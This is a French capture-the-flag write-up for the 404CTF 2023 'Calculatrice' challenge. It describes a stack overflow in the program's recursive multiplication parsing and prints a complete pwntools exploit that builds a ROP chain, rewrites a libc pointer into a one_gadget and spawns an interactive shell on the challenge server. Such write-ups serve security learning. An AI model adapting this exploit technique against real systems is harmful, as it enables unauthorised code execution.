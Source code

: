 ## Calculatrice

était donc un challenge d'exploitation binaire de la dernière édition du 404CTF 2023

c'était une calculatrice comme son nom l'indique. La vulnérabilité est assez simple à trouver,

c'est un overflow sur la pile lors du traitement récursif de l'opération de multiplication.

par exemple si on envoie à la calculatrice:

`9*9*9*9*9*9*9*9*9*9*9*9*9*1*2*3*4*5*6*7`

on obtient un beau crash, qu'on va inspecter sous gdb:

![overflow](./pics/overflow.png)

On peut voir que la valeur `1` à été écrite sur l'addresse de retour, dans RIP donc.

Et que les autres valeurs 2,3,4,etc... sont sur la pile.

Les protections du binarie étant minimes (pas de PIE notamment):

```sh
checksec calculatrice
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

Il est donc très simple d'envoyer un ROP à éxécuter au programme.

Il y avait un "intended" (concept signifiant que vous devez faire les choses d'une certaine façon qui est censée être la bonne) dont je n'ai aucune idée.

pour ma part je suis allé vers le plus simple et rapide.

J'ai utilisé un add gadget, afiin de transformer l'addresse libc de `stderr` stockée dans la `.bss` pour la transformer en l'addresse d'un one gadget, que j'ai exécuté.

voici l'exploit en question:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("calculatrice_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]
#onegadgets = one_gadget(libc.path, libc.address)

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)

rop = ROP(exe)

host, port = "challenges.404ctf.fr", "32111"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rbx_rbp = rop.find_gadget(['pop rbx','pop rbp', 'ret'])[0]
add_gadget = 0x000000000040125c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
jmp_rsi = 0x0000000000401638 # jmp qword ptr [rsi - 0x39]
pop_rsi = rop.find_gadget(['pop rsi','pop r15', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# use add gadget to change stderr address on .bss to a onegadget, and jump to it..
onegadgets = one_gadget(libc.path)
rop = p64(pop_rbx_rbp)+p64((0x100000000-((libc.address+0x3ec680)-onegadgets[2])))+p64(0x404060+0x3d)+p64(add_gadget)
rop += p64(pop_rsi)+p64(0x404060+0x39)+p64(0)+p64(jmp_rsi)+p64(0)*10


payload = '9*9*9*9*9*9*9*9*9*9*9*9*9*'
# write ROP on stack
for i in range(len(rop)>>3):
  payload += str(u64(rop[(i*8):(i+1)*8]))+'*'

print('payload\n'+payload)

sla(" : ", payload)
p.interactive()
```

et puis voilà quoi...sinon tout va bien..à une prochaine ! 

*Personne_maisalorsvraiment_personne toujours en train d'exploiter de pauvres binaires..*

